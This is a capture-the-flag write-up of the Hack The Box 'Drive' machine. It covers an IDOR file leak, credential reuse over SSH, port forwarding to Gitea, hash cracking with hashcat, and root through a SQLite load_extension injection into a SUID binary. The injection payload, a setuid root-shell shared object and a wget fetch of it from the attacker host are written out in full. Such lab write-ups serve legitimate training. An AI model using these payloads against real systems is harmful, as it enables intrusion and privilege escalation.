

we start the machine with classic port scan:
```bash
nmap -p- 10.10.11.235
```
output:
```bash
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp
```
we have something here, a filtered port and a web server.
<!-- -->
I Will start with the web server and go on hoping to get to the filtered port from the inside.
<!-- -->
I tryied to visit the web server via the ip but i got the redirect to the vhost:
	
	drive.htb
so i added the host with:	
```bash
echo '10.10.11.235	drive.htb' >> /etc/hosts
```
now that i can acces the website i created an account and so this:
	

	
the website is a parody of a google drive or things like that.
<!-- -->
i opened burpsuite and started to tinker with the site, i tried to exit from the boundaries of the app.
in fact i noticed via this url:
	
	http://drive.htb/<file_number>/getFileDetail/
i could get the content of the file i owned...
<!-- --> 
in fact i coulden't see the file 98 and 99 because i was unauthorized...
<!-- -->
But i tried to see if i could acces those files somewhere else...
eventually i found this endpoint where u can see file contnet even if the files are not yours.
<!-- -->
in fact i tried to reserve on of my files and then change the number on the url:
	
	http://drive.htb/<file_number>/block/
whene we block the file we can also see the content.
to automate the file discovery i used this intruder script from burpsuite:
	

	
so now we found some interesting files that we can visit.
<!-- -->
in file 79 we find some credentials for martin user:
```text
hey team after the great success of the platform we need now to continue the work.
on the new features for ours platform.
I have created a user for martin on the server to make the workflow easier for you please use the password "[REDACTED]".
please make the necessary changes to the code before the end of the month
I will reach you soon with the token to apply your changes on the repo
thanks!
```
so now that we have credentials we can log in via ssh:
```bash
python3 -m pwncat
connect ssh://martin@drive.htb
```
after inputting the password we are in!!!
now that we are inside the box we need to check also the other files because they contains very important informations.
<!-- -->
Like the file with id 101:
```text
hi team!
me and my friend(Cris) created a new scheduled backup plan for the database
the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM
*Note: the backup directory may change in the future!
*Note2: the backup would be protected with strong password! don't even think to crack it guys! :)
```
so we know that there are interesting stuff in the backup folder.
But when we try to open the database there are a bunch of hashes, i cracked one of them but i didn't know what to do with that
<!-- -->
We also have backups from the past months that are protected from a zip password.
<!-- -->
I tried to crack them but the password is too long.
So it's time to check the filtered port that we found with the scan.
In fact it is a port 3000 that i forwarded on my localhost machine with that command:
```bash	
ssh -L *:80:127.0.0.1:3000 martin@drive.htb
```
after logging in we have the remote port 3000 that was filtered now open on our local machine and we can acces it.
<!-- -->
When we visit the port on our browser we got this:
	

	
it is a gitea repo.
to login we can use the username we found in the database for the martin user in the backup directory and we already have the password!
<!---->
This part is thank to my friend [@Ale](https://github.com/AleHelp) that rememberd the usernames from the database we found
<!---->
so when we log in (REMEMBER TO CHANGE THE PORT 3000 with 80 AGAIN ON LOCAL MACHINE) we have the repo of the website with also the bash script that they was telling above.
<!-- -->
Inside the script we have the password that zipped the backups:
	

	
with the password we can go on and extract all the files from the backup folder.
<!-- -->
the databases that we extrack have all the same data with just different hashes.
i tried to crack a bunch of them with rockyou but it was too slow so i stopped there.
<!-- -->
Eventually i thinked about optimizing the wordlist (as a fella sudgested on the forum) with the password i found previously on the other db.
In fact there are 4 db with sha1 hases and just one with _pbdf2_sha256_.
<!-- -->
From all the databases i managed to crack only one user pass, 
the tom password in fact was slightly different every time but with a constant word.
<!-- -->
So i tried to create a custom list from rockyou with lines that was containg only that word inside
```bash
	grep '[REDACTED]' /usr/share/wordlists/rockyou.txt > rockingtom.txt
```
with this new wordlist i tried to aporach the _pbdf2_sha256_ hash:
```bash
	hashcat -a 0 -m 10000 tom.hash rockingtom.txt
```
output:
```	
[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Mode........: 10000 (Django (PBKDF2-SHA256))
Hash.Target......: pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQO...9gtro=
Time.Started.....: Tue Oct 17 00:46:52 2023 (11 secs)
Time.Estimated...: Tue Oct 17 00:51:11 2023 (4 mins, 8 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockingtom.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       75 H/s (8.79ms) @ Accel:256 Loops:256 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 0/18729 (0.00%)
Rejected.........: 0/0 (0.00%)
Restore.Point....: 0/18729 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:297984-298240
Candidate.Engine.: Device Generator
Candidates.#1....: [REDACTED] -> [REDACTED]
Hardware.Mon.#1..: Util: 97%

pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$[REDACTED]26QCQjwZ9lKhfk9gtro=:[REDACTED]
```
now that we cracked the hash we can log as tom and submit the user flag and go straight to the root flag.
<!-- -->
Inside the tom home folder we find a binary with SUID:
```bash
total 936
drwxr-x--- 6 tom  tom    4096 Oct 17 00:26 .
drwxr-xr-x 6 root root   4096 Dec 25  2022 ..
lrwxrwxrwx 1 root root      9 Sep  6 02:56 .bash_history -> /dev/null
-rw-r--r-- 1 tom  tom     220 Dec 25  2022 .bash_logout
-rw-r--r-- 1 tom  tom    3771 Dec 25  2022 .bashrc
drwx------ 3 tom  tom    4096 Jan  1  2023 .cache
drwx------ 3 tom  tom    4096 Feb  3  2023 .config
-rwSr-x--- 1 root tom  887240 Sep 13 13:36 doodleGrive-cli
drwx------ 3 tom  tom    4096 Jan  1  2023 .gnupg
drwxrwxr-x 3 tom  tom    4096 Dec 28  2022 .local
-rw-r--r-- 1 tom  tom     807 Dec 25  2022 .profile
-rw-r----- 1 root tom     719 Feb 11  2023 README.txt
-rw-r----- 1 root tom      33 Oct 16 23:44 user.txt
```
the doodleGrive-cli
has the set user id root on, that means that we need to use it to become root.
But since it is a binary i dowloaded it and analyzed with ghidra:
	

	
Even if it is a stripped binary we can analyze it in ghidra by searching the main func.
<!-- -->
The programm is a management software to administrate the doodleGrive website and database;
to do so u need to log first with the username and password u see above (redacted of course).
Once we log in we have this choice menu fro the _main_menu()_ functiuon:
	

	
i analyzed every selection but the most interesting one among the others is the selection 5 _activate_user_account()_.
this function in fact execute this sql query in the database as the root user...
<!-- -->
After a bit of variable renaming i reversed this funtion as follows:
	

	
Now we have our attack vector:
<!-- -->
When we have sql statement on a filesystem that we can access i use the load_extension technique as u see here (done with dll):
<!-- -->
https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/
<!-- -->
in our case we can import a shared object file that we compile our self.
<!-- -->
In fact if we try the sqlinjection with the load_extension with this payload (WE ARE ALSO LIMITED BY THE BUFFER OF PRINTABLE CHARS):
```sql
"or(load_extension(CHAR(46,47,100)))--
```
output:
```bash
Error: ./d.so: cannot open shared object file: No such file or directory
```
we now need to create a shared object file in c and the compile it.
<!-- -->
i've written this:
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

__attribute__((constructor))
void func(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```
this is a simple script that set UID and GID at 0 and execute a shell (we could also run a revshell if u prefer)
<!-- -->
Now we need to compile it with:
```bash
gcc -shared -o d.so d.c
```
once we compiled the shared object file we can upload it via python server:
local machine:
```bash
python3 -m http.server 80
```
remote machine:
```bash
wget http://10.10.14.151/d.so
```
once we have the file on the remote host we can run the sqlinjection above and get a root shell!!
	

	
IT IS IMPORTANT TO EXPORT THE PATH VARIABLE OTHERWISE U WILL NOT BE ABLE TO EXECUTE COMMANDS WITH THIS EXPLOIT!!
